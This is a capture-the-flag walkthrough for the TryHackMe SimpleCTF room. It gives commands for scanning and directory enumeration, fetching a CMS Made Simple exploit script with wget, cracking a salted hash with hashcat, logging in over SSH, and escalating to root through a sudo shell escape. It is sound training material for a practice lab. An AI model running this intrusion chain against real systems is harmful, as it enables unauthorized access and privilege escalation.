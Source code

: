 # SimpleCTF Room

[Link to room](https://tryhackme.com/room/easyctf)

## Scanning
Run an nmap scan on the IP address from your portal. Replace the IP below with your THM victim machine.

 ```
 sudo nmap -sC -sV -O 10.10.x.x -vv 
```

## Enumeration
Run GoBuster on the web server to determine the directories that are available. 

```
 gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

You will not know what CVE to look for until you get to the webpage that is found in the GoBuster scan.

Once there, look at the bottom left corner of the webpage for Name of application and version number/

Next you will search for the CVE using Google. 

Then you will search for the exploit using the following.
```
  searchsploit CMS Made Simple
```
Once you have identified the CVE, download the updated python script as shown below.

```
  wget https://raw.githubusercontent.com/gray-area/THM/main/SimpleCTF/exploit.py
```
```
  hashcat -m 20 0c01f4468bxxxxxxxxxxx73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
```

```
  ssh mitch@10.10.x.x -p 2222
```
Then open the user.txt file by entering the following
```
  cat user.txt
```

## Escalation

Now we need to get access to a privileged shell. To check what is running as root, enter the following.
```
  sudo -l
```

Now we can check out what options are available for this by going to GTFO Bins on GitHub and looking for our service. Make sure you select SUDO from the options.

We now have a code snippet to enter into our shell.
```
  sudo xxx -c ':!/bin/sh'
```

Now we have to find the root flag. I guessed the name here and found it was right. 

```
  locate root.txt
```
I then open file at the location provided like below

```
  cat /path/to/root.txt
```

Thats it! If you followed along, you have completed the challenge. 

Happy hacking - gray_area


